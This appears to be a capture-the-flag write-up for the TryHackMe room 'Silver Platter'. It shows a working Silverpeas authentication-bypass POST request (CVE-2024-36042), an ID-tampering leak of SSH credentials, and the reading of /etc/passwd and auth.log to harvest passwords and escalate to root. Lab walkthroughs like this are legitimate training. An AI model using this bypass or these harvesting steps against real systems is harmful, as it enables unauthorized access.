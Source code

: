```yaml
---
title: Silver Platter - TryHackMe
date: 2025-02-27
---
```


<script setup>

</script>

<RoomCard
roomName="Silver Platter"
roomIcon="/ctf/tryhackme/silver-platter/icon-room.png"
roomLink="https://tryhackme.com/room/silverplatter"
roomLevel="EASY"
roomTechnology="Linux"
/>

## Challenge description

Think you've got what it takes to outsmart the Hack Smarter Security team? They claim to be unbeatable, and now it's
your chance to prove them wrong. Dive into their web server, find the hidden flags, and show the world your elite
hacking skills. Good luck, and may the best hacker win!
But beware, this won't be a walk in the digital park. Hack Smarter Security has fortified the server against common
attacks and their password policy requires passwords that have not been breached (they check it against the rockyou.txt
wordlist - that's how 'cool' they are). The hacking gauntlet has been thrown, and it's time to elevate your game.
Remember, only the most ingenious will rise to the top.

May your code be swift, your exploits flawless, and victory yours!

## Challenge overview

Silver Platter is a **web exploitation** and **privilege escalation** challenge. The goal is to enumerate the services
running on the target, exploit a **vulnerable authentication mechanism in Silverpeas**, and escalate privileges using **leaked credentials**
to obtain **root access**.

## Enumeration

### Nmap

To begin, we perform a comprehensive scan of the target machine to identify open ports and services:

```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b1c878afe3416c9f782372b108f8bf1 (ECDSA)
|_  256 266d17ed839e4f2df6cd5317c8803d09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions:
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 27 Feb 2025 11:56:56 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|_    Connection: close
|_http-title: Error
```

The scan reveals several open ports:

- **22/tcp**: SSH (OpenSSH 8.9p1 Ubuntu 3ubuntu0.4)
- **80/tcp**: HTTP (nginx 1.18.0)
- **8080/tcp**: HTTP Proxy

## Web enumeration

### Exploring Port 80

Navigating to `http://10.10.154.105` presents us with the home page of the Hack Smarter Security website:

![Hack Smarter Security](/ctf/tryhackme/silver-platter/home.png)

The website contains multiple pages:

- **Home**: Main page of the website.
- **Work**: Describes actions taken if payment is not made.
- **About Us**: Brief description of the company.
- **Contact**: Displays contact information.

On the **Contact** page, we find valuable information:

![Hack Smarter Security](/ctf/tryhackme/silver-platter/contact.png)

- Username: `scr1ptkiddy`
- Mention of [**Silverpeas**](https://www.silverpeas.com/) software

This information helps guide further enumeration.

### Investigating Port 8080

Navigating to `http://10.10.154.105:8080` results in a **404 error page**.

![404 Error](/ctf/tryhackme/silver-platter/404.png)

#### Silverpeas Login

Using the information gathered from the contact page, we can perform further enumeration. Looking at the documentation
of [silverpeas installation](https://www.silverpeas.org/installation/installation.html), we can see that the default
path for login is `/silverpeas`. Using this information, we can navigate to `http://10.10.154.105:8080/silvepeas` and
see a login page:

![Hack Smarter Security](/ctf/tryhackme/silver-platter/silverpeas-login.png)

## Exploiting Silverpeas Authentication Bypass

Using default credentials (`SilverAdmin:SilverAdmin`) **does not work**. Brute-force attempts also fail.

Searching for vulnerabilities, we
discover [CVE-2024-36042](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d), an **authentication
bypass** exploit. This allows login by simply **removing the password field** from the POST request:

```bash
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.10.182.212:8080
Content-Length: 28

Login=scr1ptkiddy&DomainId=0
```

This successfully logs in as `scr1ptkiddy`, granting access to the Silverpeas admin panel.

![Hack Smarter Security](/ctf/tryhackme/silver-platter/silverpeas-panel.png)

## Extracting SSH Credentials

Under **My Notifications**, we find an unread message from the **manager**.

![Hack Smarter Security](/ctf/tryhackme/silver-platter/unread-notification.png)

Changing the `ID` parameter in the URL (`id=6`), reveals an earlier **notification containing SSH credentials**.

![SSH credentials notification](/ctf/tryhackme/silver-platter/ssh-credentials.png)

Credentials:

```bash
tim:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

Using these credentials, we SSH into the target machine and obtain the user flag.

```bash
ssh tim@10.10.182.212
tim@silver-platter:~$ ls -al
total 12
dr-xr-xr-x 2 root root 4096 Dec 13  2023 .
drwxr-xr-x 4 root root 4096 Dec 13  2023 ..
-rw-r--r-- 1 root root   38 Dec 13  2023 user.txt
tim@silver-platter:~$ cat user.txt
THM{user_flag}
```

## Privilege Escalation

### Enumerating Users

Checking `/etc/passwd` reveals another user, **tyler**:

```bash
tim@silver-platter:~$ cat /etc/passwd
[...]
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
```

### Finding Credentials for Tyler

Inspecting `/var/log/auth.log`, we see **Tyler running Docker commands**:

```bash
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

Tyler's **PostgreSQL password**: `_Zd_zx7N823/`

Using this, we switch to **Tyler**:

```bash
tim@silver-platter:~$ su tyler
tyler@silver-platter:/home/tim$ whoami
tyler
```

## Root Privilege Escalation

### Checking Sudo Permissions

Checking the sudo permissions for the `tyler` user:

```bash
tyler@silver-platter:/home/tim$ sudo -l
[sudo] password for tyler:
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

The `tyler` user can run any command as root. We can read the root flag:

```bash
tyler@silver-platter:/home/tim$ sudo cat /root/root.txt
THM{root_flag}
```
